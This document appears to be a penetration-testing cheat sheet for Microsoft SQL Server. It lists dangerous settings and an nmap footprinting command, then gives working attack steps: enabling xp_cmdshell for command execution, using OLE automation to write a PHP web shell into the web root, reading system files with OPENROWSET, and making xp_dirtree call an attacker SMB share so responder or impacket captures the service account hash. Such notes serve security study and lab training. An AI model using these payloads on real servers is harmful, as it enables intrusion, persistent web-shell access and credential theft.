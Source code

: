 ## MSSQL
### port used
- Port  1433/TCP
### Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of named pipes
- Weak & default sa credentials. Admins may forget to disable this account
### Footprinting the Service
- nmap
```bash
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
- mssql_ping  metaspolit

### MSSQL attack
- **rce** 
```shell
xp_cmdshell whoami

# enable xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```
- **Write Local Files**
```shell
# Enable Ole Automation Procedures to write files
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# create file
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
- **Read Local Files**
```shell
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
- **Capture MSSQL Service Hash**
```shell
EXEC master..xp_dirtree '\\<attcker ip>\share\'

EXEC master..xp_subdirs '\\<attcker ip>\share\'
```
open the responder or  impacket
```
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
```
catch the whole hash 